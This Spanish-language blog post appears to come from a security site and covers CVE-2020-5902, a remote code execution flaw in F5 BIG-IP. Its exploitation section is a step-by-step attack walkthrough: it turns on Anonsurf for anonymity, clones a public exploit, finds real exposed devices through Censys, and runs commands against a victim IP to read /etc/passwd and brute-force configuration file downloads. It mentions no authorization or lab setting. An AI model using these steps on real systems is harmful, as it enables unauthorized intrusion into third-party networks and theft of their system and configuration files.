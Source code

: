 ```yaml
---
layout: single
title: Explotación de CVE-2020-5902 - Vulnerabilidades
excerpt: "Una vulnerabilidad de ejecución remota de código de proxy/equilibrador de carga F5 BIG-IP® 8."
date: 2021-09-25
classes: wide
header:
  teaser: /assets/images/vulnerabilidades/cve-2020-5902/cve-2020-5902.png
  teaser_home_page: true
  icon: /assets/images/f5.webp
categories:
  - Vulnerabilidades
 
tags:  
  - cve-2020-5902
  - f5
  - rce
  - censys
  
---
```


![](/assets/images/vulnerabilidades/cve-2020-5902/cve-2020-5902.png)

## Descripción:

BIG-IP es un dispositivo de red multipropósito muy popular que es utilizado por una gran cantidad de compañías que manejan información sensible a lo largo del mundo. Los dispositivos BIG-IP son utilizados tanto en redes gubernamentales y de proveedores de servicios de Internet (ISPs), así como por bancos a lo largo del mundo y muchas redes empresariales. Según explica F5 en su sitio web, este producto es utilizado por 48 compañías que integran la lista Fortune 50. De hecho, dada la criticidad de la vulnerabilidad y su potencial impacto, el Cibercomando de Estados Unidos replicó la advertencia emitida por la compañía y llamó a instalar el parche que repara el fallo lo antes posible.

CVE-2020-5902 es una vulnerabilidad crítica en la interfaz de usuario de administración de tráfico BIG-IP (TMUI) también conocida como la utilidad de configuración. La vulnerabilidad recibió una calificación CVSSv3 de 10.0, la puntuación más alta posible. La vulnerabilidad se puede explotar cuando el acceso de red a la TMUI se expone a través del puerto de administración BIG-IP o las IP automáticas. La explotación exitosa de este defecto concedería a un atacante una variedad de privilegios, incluyendo la capacidad de ejecutar comandos arbitrarios del sistema o código Java, crear o eliminar archivos, así como deshabilitar los servicios en el host vulnerable. El asesor afirma que la vulnerabilidad también podría "resultar en un compromiso completo del sistema".

## Productos Afectados:

BIG-IP (LTM, AAM, WAF avanzado, AFM, análisis, APM, ASM, DDHD, DNS, FPS, GTM, controlador de enlace, PEM, SSLO, CGNAT), Rma 11x, 12x, 13x, 14x, 15x, 16x., versiones 11.6.1 - 11.6.5, 12.1.0-12.1.5,13.1.0-13.1.3,14.1.0-14.1.2,15.1.0 - 15.0.1.


## Explotación:

Para esta explotaciòn vamos a utilizar una maquina con sistema operativo Kali Linux. Como primera medida vamos a iniciar el anunsurf para manejar el anonimato

•	Anonsurf start

![](/assets/images/vulnerabilidades/cve-2020-5902/cve-2020-59022.png)

Procedemos a clonar el paquete de Git Hub con el exploit de la vulnerabilidad.

•	git clone https://github.com/yasserjanah/CVE-2020-5902

Ingresamos al directorio descargado

•	cd CVE-2020-5902/

![](/assets/images/vulnerabilidades/cve-2020-5902/cve-2020-59023.png)

Realizamos la siguiente instalación dentro del directorio.

•	pip3 install -r ./requirements.txt

![](/assets/images/vulnerabilidades/cve-2020-5902/cve-2020-59024.png)

Realizamos la búsqueda de un equipo vulnerable en la página de Censys con la vulnerabilidad “BIG-IP & reg”.

•	https://censys.io/

![](/assets/images/vulnerabilidades/cve-2020-5902/cve-2020-59025.png)

Ejecutamos el exploit con extensión .py que está dentro del directorio.

•	python3 exploit-CVE-2020-5902.py -ip <IP VICTIMA> -f /etc/passwd

![](/assets/images/vulnerabilidades/cve-2020-5902/cve-2020-59026.png)

Usamos -b para archivos de fuerza bruta de una lista de palabras.

•	python3 exploit-CVE-2020-5902.py -ip <IP VICTIMA> -b

![](/assets/images/vulnerabilidades/cve-2020-5902/cve-2020-59027.png)

Al finalizar el comando, nos dirigimos en donde se almacenan los resultados del exploit y podremos observar cómo descarga los archivos de las diferentes configuraciones del dispositivo.

![](/assets/images/vulnerabilidades/cve-2020-5902/cve-2020-59028.png)


## Referencias:

•	https://www.welivesecurity.com/la-es/2020/07/06/estan-explotando-vulnerabilidad-critica- dispositivos-big-ip-f5/

•	https://support.f5.com/csp/article/K52145254?sf235665517=1 

•	https://urlscan.io/result/5fd0c2b2-9749-46b7-8d28-3550059123db/#summary 

•	https://nvd.nist.gov/vuln/detail/CVE-2020-5902 

•	https://github.com/yasserjanah/CVE-2020-5902

•	https://censys.io/ipv4?q=BIG-IP+%26+reg
